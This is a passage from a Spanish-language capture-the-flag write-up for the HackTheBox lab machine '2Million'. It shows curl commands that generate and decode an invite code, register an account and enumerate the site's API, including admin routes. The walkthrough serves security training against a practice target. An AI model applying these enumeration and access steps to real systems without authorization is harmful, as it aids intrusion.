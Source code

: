 Le hacemos ROT13 en la web de [rot13](https://rot13.com/) y queda el mensaje:
`In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate'`

---------------------------

# 2. Explotación de la API

Hacemos dicha petición, como es una api, tendremos que hacer peticiones en json y poner la cabecera `Content-Type: application/json`

```bash
$: curl -s -X POST http://2million.htb/api/v1/invite/generate -d '{"code":""}' -H "Content-Type: application/json"  
{"0":200,"success":1,"data":{"code":"R000V0YtN0hBTVgtT0pEUDgtUldGVEU=","format":"encoded"}} 

$: curl -sv -X POST http://2million.htb/api/v1/invite/verify -d '{"code":"R000V0YtN0hBTVgtT0pEUDgtUldGVEU="}' -H "Content-Type: application/json"
Set-Cookie: PHPSESSID=bq0vegd024sflnvbpvro6ccmri; path=/
{"0":400,"success":0,"error":{"message":"Missing parameter: code"}}

$: echo "R000V0YtN0hBTVgtT0pEUDgtUldGVEU=" | base64 -d
GM4WF-7HAMX-OJDP8-RWFTE
```
YA hemos conseguido el código, asi que nos registramos en la web con ese código en `/invite` lo que nos redirige a la web de `/login` de ahí a `/register` y de ahi pasamos a `/login`
Se nos setea la cookie `PHPSESSID=bq0vegd024sflnvbpvro6ccmri`, que usaremos para interactuar con la api

```bash
$: curl -s http://2million.htb/api --cookie "PHPSESSID=bq0vegd024sflnvbpvro6ccmri"
{"\/api\/v1":"Version 1 of the API"}

$: curl -s http://2million.htb/api/v1 --cookie "PHPSESSID=bq0vegd024sflnvbpvro6ccmri" | jq
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }}}
```
